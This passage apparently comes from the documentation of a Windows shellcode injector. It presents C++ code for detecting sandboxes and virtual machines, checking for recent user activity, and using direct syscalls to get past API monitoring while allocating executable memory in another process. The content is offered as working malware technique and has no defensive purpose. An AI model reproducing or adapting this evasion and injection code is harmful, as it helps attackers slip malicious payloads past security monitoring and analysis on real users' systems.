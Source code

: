 ### Sandbox Detection

```cpp
bool IsVirtualMachine() {
    // Check processor count
    SYSTEM_INFO sysInfo;
    GetSystemInfo(&sysInfo);
    if (sysInfo.dwNumberOfProcessors < 2) return true;
    
    // Check VM registry keys
    HKEY hKey;
    if (RegOpenKeyExA(HKEY_LOCAL_MACHINE, 
        "SYSTEM\\ControlSet001\\Control\\Class\\{4d36e968-e325-11ce-bfc1-08002be10318}\\0000", 
        0, KEY_READ, &hKey) == ERROR_SUCCESS) {
        RegCloseKey(hKey);
        return true;
    }
    return false;
}
```

### User Interaction Detection

```cpp
bool CheckUserInteraction() {
    LASTINPUTINFO lii;
    lii.cbSize = sizeof(LASTINPUTINFO);
    if (GetLastInputInfo(&lii)) {
        DWORD tickCount = GetTickCount();
        return (tickCount - lii.dwTime) < 300000; // 5 minutes
    }
    return false;
}
```

## 🛡️ Evasion Techniques

### Direct Syscalls

The injector uses direct syscalls to bypass API monitoring:

```cpp
// Direct syscall definitions
typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    ULONG_PTR ZeroBits,
    SIZE_T* RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

// Usage
NtAllocateVirtualMemory(hProcess, &pRemoteBuffer, 0, &shellcodeSize, 
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
